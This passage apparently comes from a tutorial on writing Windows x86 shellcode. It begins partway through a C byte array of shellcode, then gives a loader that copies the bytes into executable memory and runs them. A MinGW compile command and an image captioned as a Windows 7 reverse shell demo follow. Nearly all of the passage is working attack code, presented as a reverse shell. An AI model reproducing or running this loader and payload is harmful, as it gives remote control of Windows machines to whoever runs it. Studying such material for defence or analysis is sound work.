 ```c
"\x57\x31\xff\x6a\x12\x59\x57\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
"\x01\xc6\x44\x24\x10\x44\x8d\x4c\x24\x10\x54\x51\x57\x57\x57"
"\x47\x57\x4f\x57\x57\x53\x57\xff\xd0\x83\xc4\x10\x68\x65\x73"
"\x73\x61\x66\x83\x6c\x24\x03\x61\x68\x50\x72\x6f\x63\x68\x45"
"\x78\x69\x74\x54\x56\xff\xd5\x31\xc9\x51\xff\xd0"; 
			
    printf("shellcode length: %i", strlen(shellcode));

    LPVOID lpAlloc = VirtualAlloc(0, 4096, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpAlloc, shellcode, strlen(shellcode));

    ((void(*)())lpAlloc)();

    return 0;
}
```
Compile it on Windows 
```dos
c:\MinGW\bin>gcc shellcode.c -o shellcode
```

Windows 7 (x86)
![](/assets/images/windows/x86/reverse_shell_0.gif)<br>
